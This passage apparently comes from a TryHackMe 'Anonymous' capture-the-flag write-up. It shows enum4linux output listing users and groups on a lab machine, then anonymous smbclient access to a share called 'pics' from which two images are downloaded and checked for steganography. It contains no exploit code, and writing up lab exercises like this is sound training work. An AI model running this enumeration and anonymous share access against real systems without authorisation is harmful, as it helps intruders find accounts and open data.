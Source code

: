 ```
[+] Enumerating users using SID S-1-5-21-2144577014-3591677122-2188425437 and logon username '', password ''

S-1-5-21-2144577014-3591677122-2188425437-501 ANONYMOUS\nobody (Local User)
S-1-5-21-2144577014-3591677122-2188425437-513 ANONYMOUS\None (Domain Group)
S-1-5-21-2144577014-3591677122-2188425437-1003 ANONYMOUS\namelessone (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\namelessone (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

 ===============================( Getting printer info for 10.10.57.143 )===============================

No printers returned.


enum4linux complete on Fri Oct 14 16:53:36 2022
```

Now we have a username "namelessone", and a share name "pics" which is readable and writable without any credentials. Let's see what we have in this SMB share :  
```
attacker@AttackBox:~/Documents/THM/CTF/Anonymous$ smbclient //10.10.57.143/pics
Enter WORKGROUP\attacker's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 13:11:34 2020
  ..                                  D        0  Thu May 14 03:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 02:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 02:43:42 2020

		20508240 blocks of size 1024. 13306768 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (166,7 KiloBytes/sec) (average 166,7 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (438,2 KiloBytes/sec) (average 357,5 KiloBytes/sec)
```

I downloaded the two image files on my machine to see if we can find any hidden informations in these files using steghide and stegseek, but I didn't find 
any hidden data in those files.  
